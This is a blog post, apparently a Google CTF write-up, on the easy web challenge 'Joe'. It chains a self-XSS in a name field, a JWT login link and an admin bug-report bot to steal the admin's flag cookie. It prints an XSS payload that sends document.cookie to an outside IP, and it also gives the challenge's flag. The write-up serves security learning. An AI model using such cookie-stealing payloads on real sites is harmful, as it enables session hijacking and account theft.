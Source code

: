 ```yaml
---
layout: post
title: Write For Joe: google CTF
published: true
---
```

## Joe Challenge writeup: Google ctf

Joe was the first of five puzzles in the Web category, and the only one classified as Easy. In essence, the challenge entailed the following:

_If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag:_

[Challenge url](https://joe.web.ctfcompetition.com)

![Joe_screenshot.png]({{site.baseurl}}/_posts/Joe_screenshot.png)

Initial reconnaissance led me to the following features.


- Name-changing
- Session and Login handling
- Submitting bug report to admin.

Another interesting point was that if we try to use the link provided for admin login then we getting the following result.

![joe_admin_login.png]({{site.baseurl}}/_posts/joe_admin_login.png)



As we can see in the above responce that the admin have a cookie named as flag and it's required for logging in as an admin. Now we just need to figure out a way to steal the admin cookie.

Cookie theft is often facilitated through XSS (cross-site scripting), so I asked Joe to let me rename you to an injection payload:

**<svg/onload=alert(document.domain)>**


Refreshing the page led to successful self XSS
![joe_test.png]({{site.baseurl}}/_posts/joe_test.png)


But this payload is executing in self context a.k.a. "selfxss".Now I proceeded to focus on leveraging this against the "administrator" user. Reporting a bug to admin seems an intersting attack surface for this purpose. we can use this feature to report a bug by supplying a valid report URL (prefixed with HTTP/S) and CAPTCHA response.


But after trying a few times I am still not able to exploit this feature. So i decided to take a look on the login feature. where i found [JSON Web Token](https://jwt.io/) parameter in a login request:

![Screenshot from 2017-07-03 15-57-08.png]({{site.baseurl}}/_posts/Screenshot from 2017-07-03 15-57-08.png)



**_JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object._**



I found that the above URL could be used to log into my account with a valid JWT, and proceeded to change Joe's name to the following payload

**<script>img = new Image(); img.src="https://139.59.74.204/cookie?q="+document.cookie;alert("done");</script>**

![selfxss.png]({{site.baseurl}}/_posts/selfxss.png)

As you can see in above image that the payload executed successfully. Now all i need is to issue a bug report for admin and sent my tokenised URL to Joe, but this url was rejected due to excess length.


![joe_url_too_big.png]({{site.baseurl}}/_posts/joe_url_too_big.png)

So i used google's link shortner service and sent the new url as a bug report. Which is get accepted successfully.

![Screenshot from 2017-07-03 15-59-36.png]({{site.baseurl}}/_posts/Screenshot from 2017-07-03 15-59-36.png)

Now all i needed is to check the access log of apache that is running on my VPS.
![joe_flag.png]({{site.baseurl}}/_posts/joe_flag.png)

And this way i got the access of admin's flag cookie.

		flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!};
